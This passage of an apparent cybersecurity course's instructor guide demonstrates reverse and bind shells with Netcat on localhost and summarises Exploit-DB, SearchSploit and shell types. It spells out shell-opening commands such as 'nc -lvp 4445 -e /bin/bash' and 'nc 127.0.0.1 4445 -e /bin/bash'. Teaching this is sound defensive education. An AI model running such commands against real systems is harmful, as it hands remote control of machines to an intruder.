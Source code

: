 5. From the attacker's window, we now have a reverse shell opened on the target host, and we can now execute commands to it remotely. 

6. Run `whoami` in the attacker's window, and show students the result. 

    - This type of attack requires the host to run the connection string command (`nc 127.0.0.1 4445 -e /bin/bash`), which is often done through some type of **remote-code execution (RCE)** exploit.

    - Use ctrl+C to stop the Netcat connection, and `clear` the windows.

**Bind Shells**

Now, you will demonstrate a bind shell.

1. In the victim/target's window on the right, run `nc -lvp 4445 -e /bin/bash`.

    - The victim now has /bin/bash listening on port 4445, as the following image shows:

	 ![A screenshot depicts the command and its result in the terminal.](images/netcat4.png)
	
2. In the attacker window on the left, connect to port 4445: `nc 127.0.0.1 4445`. Run the `id` command to show you have a shell and can execute commands, as the following image shows: 

	![A screenshot depicts the command in the terminal.](images/netcat5.png)

    - A bind shell requires the listener to be set up on the victim/target, where a reverse shell has the listener on the attacker's machine.

**Summary**

Summarize the concepts covered in the previous sections:
  - **Exploit-DB.com** is a popular online database that contains publicly disclosed exploits, cataloged according to their **Common Vulnerability and Exposure (CVE)** identifiers.
  - **SearchSploit** is a command-line utility for Exploit-DB that allows you to take an offline copy of the entire Exploit database with you wherever you go.
    - Security professionals can perform detailed offline searches of hundreds of exploit scripts from Exploit-DB using the locally checked-out copy of the online repository.
    - SearchSploit comes preinstalled on Kali Linux and should be updated regularly. 
  - After determining which exploits to use, exploits can be attempted in the **exploitation** phase.
  - Exploited access to a machine is typically granted in the form of terminal access, known as a **shell**.
  - Two types of shells are **bind** and **reverse**.
     - A **bind shell** is where the remote host opens a port for the current host to connect to. The current, local host then connects to that remote host's port.
     - A **reverse shell** is where the remote host connects back to a port on the local host.
